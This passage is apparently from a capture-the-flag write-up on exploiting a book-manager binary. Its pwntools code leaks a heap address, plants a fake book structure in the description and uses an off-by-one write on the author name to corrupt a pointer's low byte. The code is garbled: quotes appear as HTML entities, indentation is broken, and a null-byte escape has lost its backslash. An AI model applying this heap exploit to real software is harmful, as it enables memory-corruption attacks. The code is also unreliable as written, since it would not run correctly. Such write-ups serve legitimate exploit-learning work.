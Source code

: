 ```
io.recvuntil('Enter book description:')

io.sendline('object1')



io.recvuntil (&#39;&gt;&#39;) # print book1
io.sendline ( &#39;4&#39;)
io.recvuntil ( &#39;Author:&#39;)
io.recvuntil (&#39;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&#39;) # &lt;== leak book1
book1_addr = io.recv (6)
book1_addr = book1_addr.ljust (8, &#39;x00&#39;)
book1_addr = u64(book1_addr)

```





#### off-by-one Override pointer low byte


The change function is also provided in the program. The change function is used to modify the author name, so the change can be used to write the author name, and the off-by-one is used to override the low byte of the first item of the pointer array.




After overwriting the low byte of the book1 pointer, this pointer points to the description of book1. Since the program provides the edit function, the content in the description can be arbitrarily modified. We can pre-define the data in the description to create a book structure. The description and name pointers of this book structure can be directly controlled.


```

def off_by_one(addr):

    addr += 58

    io.recvuntil('>')# create fake book in description

io.sendline ( &#39;3&#39;)
    fake_book_data = p64(0x1) + p64(addr) + p64(addr) + pack(0xffff)

    io.recvuntil('Enter new book description:')

    io.sendline(fake_book_data) # <== fake book





    io.recvuntil('>') # change author name

io.sendline ( &#39;5&#39;)
    io.recvuntil('Enter author name:')

    io.sendline('a' * 32) # <== off-by-one

```
